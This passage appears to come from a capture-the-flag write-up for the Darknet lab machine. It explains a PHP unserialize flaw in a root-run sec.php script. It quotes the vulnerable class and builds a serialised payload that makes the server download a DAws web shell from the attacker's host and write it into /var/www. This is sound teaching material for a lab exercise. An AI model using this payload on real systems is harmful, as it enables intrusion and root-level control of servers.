 Hmph. Ok then I'll copy the `suphp.conf` to `/tmp` and edit it there, then copy
it back. Making sure I change both `min_uid` and `min_gid`, I reload `sec.php` and
get a blank page. No errors are good errors.

Now that I've got `sec.php` running I can go ahead and see what we might be able to exploit.
Anything we do with this file will run as root, some hopefully this is the last part of
Darknet, because I want my life back :)

`sec.php` unserialises our input, which basically takes a serialised string 
and [unserialises into an object](https://php.net/manual/en/function.unserialize.php). 
Similar to Python's pickle. There's no way I can call a method on either of the classes,
so I have to see what will get called for me.
The `Test` class has a rather useful destructor, which,
will write data to disk and make it world readable. Almost as if that's what
we're supposed to use. 

{% highlight php %}
<?php

class Test {

    public $url;
    public $name_file;
    public $path;

    function __destruct(){
        $data=file_get_contents($this->url);
        $f=fopen($this->path."/".$this->name_file, "w");
        fwrite($f, $data);
        fclose($f);
        chmod($this->path."/".$this->name_file, 0644);
}
}

?>
{% endhighlight %}

The `Show` class on the other hand is only useful for testing, as this will provide visual
feedback when `sec.php` gets rendered and runs the `echo` statement. This will
invoke the `__toString` method on the `Show` class. Passing `test=O:4:"Show":1:{s:4:"woot";s:2:"XX";}` 
will print `Showme`, confirming that the serialisation worked.

Now to get DAws on there as root. First things first I need to determine the serialised
string. I do this with a simple PHP script that searialises the `Test` class and
prints out the string I need. Which is

{% highlight text %}
O:4:"Test":3:{s:3:"url";s:30:"http://192.168.56.101/DAws.txt";s:9:"name_file";s:8:"DAws.php";s:4:"path";s:8:"/var/www"}
{% endhighlight %}

Using Burp suite I use a `GET` request to `sec.php`, send it to `Repeater` and convert
it to a `POST` request with the required payload:

{% img http://i.imgur.com/kiutbRt.png %}
